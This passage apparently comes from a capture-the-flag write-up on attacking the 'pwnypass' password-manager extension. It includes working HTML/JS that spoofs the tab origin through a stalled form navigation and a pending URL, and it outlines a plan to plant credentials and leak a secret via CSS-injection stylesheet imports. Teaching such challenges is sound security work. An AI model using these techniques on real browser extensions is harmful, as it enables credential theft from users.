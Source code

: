 The way they get the origin of the tab is with `getOrigin`. Here's that code again:

```js
const getOrigin = async (id) => new Promise((res)=>chrome.tabs.get(id, (t)=>setTimeout(()=>res(new URL(t.pendingUrl ?? t.url).origin),200)));
```

This one-liner takes the origin from the `.pendingUrl` of the tab if it exists (otherwise just `.url`), which is, as described below by [developer.chrome.com](https://developer.chrome.com/docs/extensions/reference/api/tabs#:~:text=The%20URL%20the%20tab%20is%20navigating):

> The URL the tab is navigating to, before it has committed. This property is only present if the extension's manifest includes the "tabs" permission and there is a pending navigation.

Crucially, we can control this without destroying the event loop if we make a pending navigation, trigger the background logic, then cancel the navigation after `.pendingUrl` is read but before we are actually navigated\*\*\* -- this effectively means that we can spoof token requests from `https://pwnypass.c.hc.lc` if we can have the navigation stall for long enough!

There are a lot of ways to do this; the way I did it is with a massive file (maybe not very healthy for remote):

```html
<form id="bigform" enctype="multipart/form-data" action="https://pwnypass.c.hc.lc/login.php" method="POST">
  <input type=file id=fileinp name=lol>
</form>
<script>
let lmao = new DataTransfer();
lmao.items.add(new File(["a".repeat(59388419)], "lol"));
fileinp.files = lmao.files;

setTimeout(() => bigform.submit(), 10);

// logic after bigform is submitted and before window.stop() is invoked will have the spoofed origin of https://pwnypass.c.hc.lc

setTimeout(() => window.stop(), 700);
</script>
```

Some other ways were by exhausting the connection pool; if there are too many concurrent pending requests to the same destination, then any subsequent requests will be held pending until one of them finishes (this would also work even if the target site didn't exist); or with the same idea above but without the huge file, which was actually unnecessary -- you could just spam `window.stop`.

So, the plan as a whole is:

1. Spoof the current tab's origin to be `https://pwnypass.c.hc.lc` via `.pendingUrl`
2. Write malicious credentials to storage by dispatching events
3. Cause the credentials to be read from storage again by loading a new page
4. Spoof the origin again, so both our malicious credentials with the CSS injection and the flag are loaded
5. Leak the flag char-by-char by recursively importing a stylesheet which only generates once the current character is known
